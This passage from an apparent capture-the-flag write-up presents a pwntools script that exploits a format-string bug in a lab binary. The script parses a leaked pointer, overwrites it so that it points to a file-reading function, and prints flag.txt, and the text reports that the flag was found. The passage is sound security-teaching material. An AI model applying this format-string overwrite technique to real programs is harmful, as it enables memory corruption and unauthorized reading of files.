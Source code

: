 ```python
#!/usr/bin/python3 
from pwn import *

#r = remote('ctf-fsi.fe.up.pt', 4005)
#r = remote('127.0.0.1', 4003)
r = process('./program')

context(arch='i386')

res = r.recvuntil(b"flag:\n")


# Extract the address of the fun pointer
aux_fun = res[res.find(b"hint:") + 6:res.find(b"hint:") + 14]

# Conversion of the hexadecimal string to integer
fun = int(aux_fun, 16)

# readtxt function address
readtxt_address = 0x80497a5

# Generating the payload to overwrite the fun pointer
payload = b"./flagxx" + fmtstr_payload(3, {fun: readtxt_address}, numbwritten=8)

# Writing the payload
r.sendline(payload)


# Receber e imprimir a saída final (conteúdo do flag.txt)
buf = r.recvall().decode(errors="backslashreplace")
print(buf)
```


And using that python script we were able to find te flag from the file `flag.txt`.

<div align="center">
    <figure>
        <img src="images/CTF6/flag.png" width="550">
        <figcaption style="font-size: smaller;">Figure 5: Flag found.</figcaption>
    </figure>
</div>